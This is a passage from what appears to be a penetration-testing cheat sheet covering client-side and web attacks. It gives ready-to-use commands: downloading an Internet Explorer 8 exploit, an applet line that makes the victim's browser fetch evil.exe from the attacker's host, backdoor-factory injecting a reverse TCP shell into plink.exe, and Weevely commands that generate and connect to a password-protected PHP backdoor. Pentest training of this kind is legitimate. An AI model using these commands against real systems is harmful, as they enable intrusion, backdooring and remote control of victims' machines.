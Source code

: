     -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '&lt;applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"&gt;&lt;param name="1"
        value="http://$ip:80/evil.exe"&gt;&lt;/applet&gt;' &gt;
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        ls -l /usr/share/webshells/

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more
